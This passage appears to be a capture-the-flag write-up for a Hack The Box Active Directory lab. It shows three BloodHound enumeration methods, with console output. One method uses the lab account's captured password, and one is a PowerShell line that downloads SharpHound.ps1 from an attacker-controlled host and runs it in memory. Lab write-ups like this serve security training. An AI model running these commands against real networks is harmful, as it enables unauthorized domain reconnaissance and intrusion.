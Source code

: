 ### BloodHound Enumeration

**Method1**: Execute `SharpHound.exe` on remote Windows

```console
*Evil-WinRM* PS C:\qwe> ./SharpHound.exe -c all
2024-02-22T10:50:00.6772236-08:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
...
2024-02-22T10:50:45.7653535-08:00|INFORMATION|Saving cache with stats: 118 ID to type mappings.
 118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-02-22T10:50:45.7653535-08:00|INFORMATION|SharpHound Enumeration Completed at 10:50 AM on 2/22/2024! Happy Graphing!
*Evil-WinRM* PS C:\qwe> download 20240222105044_BloodHound.zip
Info: Downloading C:\qwe\20240222105044_BloodHound.zip to 20240222105044_BloodHound.zip
Info: Download successful!
```

**Method2**: Execute `bloodhound` script on local kali with user's credential

```console
$ bloodhound-python -d htb.local -ns $IP -u svc-alfresco -p s3rvice -c all --zip
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (FOREST.htb.local:88)] [Errno 113] No route to host
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 01M 19S
INFO: Compressing output into 20240223040222_bloodhound.zip
```

**Method3**: Upload `SharpHound.ps1` and execute it on remote Windows

```console
*Evil-WinRM* PS C:\Users\svc-alfresco> iex(new-object net.webclient).downloadstring("http://10.10.16.24/SharpHound.ps1")
*Evil-WinRM* PS C:\Users\svc-alfresco> invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
```
